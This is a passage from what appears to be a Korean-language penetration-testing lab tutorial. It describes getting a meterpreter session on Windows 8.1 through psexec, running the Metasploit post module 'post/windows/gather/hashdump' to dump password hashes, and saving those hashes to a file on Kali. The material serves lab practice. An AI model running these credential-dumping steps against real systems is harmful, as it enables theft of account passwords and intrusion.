 ![19](./image5/Screenshot_2020-07-23_01-22-18.png)

Windows XP에서 했던 것과 마찬가지로 Windows 8.1에 psexec을 이용하여 exploit을 진행하고 meterpreter 세션으로 진입한다. 

Windows 8.1에서는 바로 hashdump 커맨드로 hash를 알아낼 수 없다. 그러므로 post 모듈을 이용한다.

```
meterpreter> run post/windows/gather/hashdump
```

그러면 Windows 8.1에서의 password hash를 확인할 수 있다.

확인한 password hash를 nano 커맨드로 Kali의 Desktop에 txt파일로 저장한다.

```
root@kali:~# nano /home/kali/Desktop/hash_8.txt
```

저장할 때는 Ctrl+X 버튼을 이용한다.
